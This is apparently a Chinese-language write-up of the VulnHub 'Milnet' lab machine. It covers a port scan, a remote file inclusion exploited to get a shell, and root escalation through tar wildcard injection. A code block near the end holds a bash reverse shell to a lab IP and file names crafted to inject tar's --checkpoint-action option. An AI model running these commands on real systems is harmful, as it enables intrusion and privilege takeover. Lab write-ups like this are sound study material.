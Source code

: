 +++
title = '0x033 Milnet'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



这台靶机的网络很棒，能桥接，还能自动告诉咋们IP地址

# 端口扫描

![](/vulnhub_img/WEBRESOURCEa3613cd58e1766b1f64062b552945d74截图.png)

![](/vulnhub_img/WEBRESOURCE13482f9d87fa08afddc390f6189f74b4截图.png)

![](/vulnhub_img/WEBRESOURCEf10e92bf472185f88c8e89af154e1b0e截图.png)

# 渗透

就两个端口，直接看80呗：

![](/vulnhub_img/WEBRESOURCE7fbe03601bbb56b42c0b78c15ce61ea7截图.png)

抓包看了一下数据包，发现确实存在远程文件包含：

![](/vulnhub_img/WEBRESOURCE05d04d462add4336b384a9e3349da83c截图.png)

弹shell吧，这里看报错就可以知道，应该是逻辑处理的地方添加了php后缀：

![](/vulnhub_img/WEBRESOURCE71656d2d3631a661ebeb9c498b8e30f3截图.png)

# 提权

![](/vulnhub_img/WEBRESOURCEe7ecf0b20d849e7e0269ce46b445e679截图.png)

![](/vulnhub_img/WEBRESOURCEba6a7f434d0f879b5652a30810d07096截图.png)

查了一些资料，关于tar通配符提权：

[https://www.cnblogs.com/jhinjax/p/17067082.html](https://www.cnblogs.com/jhinjax/p/17067082.html)

第一次尝试失败了，我猜测是下面这个红框里面的原因，没有引号，中间有空格，让人操蛋的是，这玩意儿删不掉：

![](/vulnhub_img/WEBRESOURCEf645dfaef77a30b8bf4b30a85f0bc5b5截图.png)

重置了一下机器，然后这次我加上了引号就可以了

```
echo "bash -c 'bash -i >& /dev/tcp/192.168.5.66/8899 0>&1'">1.sh
touch "/var/www/html/--checkpoint-action=exec='sh 1.sh'"
touch "/var/www/html/--checkpoint=1"
```

![](/vulnhub_img/WEBRESOURCEdc5bc44ab35b6d27bcd2826b13b455c1截图.png)

![](/vulnhub_img/WEBRESOURCE5bbb080e1c1016fd7bb1b8bce5c06292截图.png)